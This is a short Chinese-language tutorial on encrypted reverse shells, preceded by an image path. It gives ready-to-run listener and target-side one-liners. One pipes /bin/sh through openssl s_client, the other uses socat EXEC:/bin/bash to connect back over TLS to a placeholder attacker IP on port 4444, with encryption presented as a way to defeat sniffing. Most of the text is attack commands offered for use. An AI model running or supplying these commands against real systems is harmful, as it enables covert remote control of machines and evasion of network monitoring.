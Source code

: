 ## 1. 背景概念

* **反弹监听（Reverse Shell）**
  通常我们用 `nc -lvp 端口` 是 **被动监听**，等别人连接上来。
  而反弹监听是 **主动连接** 的方式，比如目标机器主动连接你的监听机，把它的 Shell 输入输出通过 TCP/UDP 发回来。

* **加密传输（Encryption）**
  反弹回来的 Shell 数据如果是明文，网络上任何能截获数据的人都可以看到命令和输出。
  通过加密（例如 TLS/SSL、AES），可以防止中间人嗅探。

---

## 2. 常见实现方式

### 方式一：OpenSSL 反弹加密

* **监听端（攻击机）**

  ```bash
  # 生成证书（只需一次）
  openssl req -new -x509 -keyout key.pem -out cert.pem -days 365 -nodes

  # 开启加密监听
  openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
  ```
* **反弹端（目标机）**

  ```bash
  mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect 攻击机IP:4444 > /tmp/f
  ```

优点：加密由 OpenSSL 自动完成，简单。
缺点：需要 OpenSSL 工具。

---

### 方式二：利用 Socat + SSL

* **监听端**

  ```bash
  # 生成证书
  openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
  cat key.pem cert.pem > full.pem

  # SSL 加密监听
  socat OPENSSL-LISTEN:4444,cert=full.pem,verify=0 -
  ```

* **反弹端**

  ```bash
  socat EXEC:/bin/bash,pty,stderr,setsid,sigint,sane OPENSSL:攻击机IP:4444,verify=0
  ```

优点：稳定、支持多平台。
缺点：需要 socat 工具。

---